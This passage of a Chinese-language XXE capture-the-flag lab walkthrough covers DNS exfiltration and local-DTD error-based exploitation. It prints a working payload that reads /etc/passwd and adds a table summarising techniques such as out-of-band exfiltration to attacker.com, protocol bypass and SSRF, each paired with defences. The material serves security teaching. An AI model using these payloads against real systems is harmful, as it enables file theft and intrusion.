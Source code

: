 **关键点**：

- **数据编码**：文件内容需符合域名格式（如去掉特殊字符）。
- **适用场景**：严格HTTP出站限制时。

**防御**：

- DNS监控：告警异常长子域名或高频查询。

### 9. 本地DTD利用（关卡11）

**攻击流程**：

1. **查找已知DTD文件**：如`/usr/share/yelp/dtd/docbookx.dtd`。

2. **覆盖实体触发错误**：

   ```
   <!DOCTYPE foo [
     <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
     <!ENTITY % file SYSTEM "file:///etc/passwd">
     <!ENTITY % ISOamso '<!ENTITY &#x25; error SYSTEM "file:///nonexistent/%file;">'>
     %local_dtd;
   ]>
   ```

3. **从错误消息提取数据**：服务器返回`/nonexistent/root:x:0:0...`等错误。

**关键点**：

- **依赖错误回显**：需服务器显示详细错误信息。
- **已知DTD路径**：不同系统路径可能不同（如Linux/Windows）。

**防御**：

- 关闭错误回显：`display_errors=Off`（PHP）。
- 删除非必要DTD文件。

### 总结：

| **攻击技术**            | **解题思路**                                                 | **关键知识点**                                               | **对应关卡示例** |
| :---------------------- | :----------------------------------------------------------- | :----------------------------------------------------------- | :--------------- |
| **基础文件读取XXE**     | 1. 构造`file://`读取`/etc/passwd`。 2. 直接回显文件内容。    | - 普通实体直接引用（`&xxe;`）。 - 依赖服务器回显。           | 关卡1-3          |
| **盲注XXE（OOB）**      | 1. 使用参数实体+外部DTD外带数据。 2. 通过HTTP/DNS接收泄露内容。 | - 参数实体（`%param;`）动态构造。 - 外部DTD托管攻击者服务器。 | 关卡4            |
| **SVG/图片XXE**         | 1. 上传含恶意DTD的SVG文件。 2. 触发SVG解析泄露数据。         | - SVG是XML格式，支持内联实体。 - 绕过文件上传检查。          | 关卡5            |
| **Content-Type切换XXE** | 1. 修改请求头为`application/xml`。 2. 注入恶意XML。          | - 服务端根据`Content-Type`选择解析器。 - JSON接口可能仍处理XML。 | 关卡6            |
| **协议黑名单绕过**      | 1. 使用`php://filter`或`expect://`替代`file://`。 2. Base64编码文件内容。 | - 协议包装器绕过过滤。 - `php://filter`读取文件需编码。      | 关卡7            |
| **XInclude攻击**        | 1. 注入`<xi:include>`标签读取文件。 2. 绕过无DOCTYPE控制的场景。 | - XInclude独立于DTD。 - 需声明命名空间`xmlns:xi`。           | 关卡8            |
| **XXE结合SSRF**         | 1. 构造`http://内网IP`请求探测内网。 2. 攻击Redis/Jenkins等未授权服务。 | - XXE作为SSRF触发器。 - 扩展内网攻击面。                     | 关卡9            |
| **DNS外带数据**         | 1. 将数据作为子域名发送（如`data.attacker.com`）。 2. 监控DNS日志。 | - 适用于无HTTP出站的环境。 - 数据需编码为合法域名格式。      | 关卡10           |
| **本地DTD利用**         | 1. 覆盖系统DTD中的实体触发错误。 2. 从错误消息提取文件内容。 | - 利用已知本地DTD文件路径。 - 依赖错误回显。                 | 关卡11           |
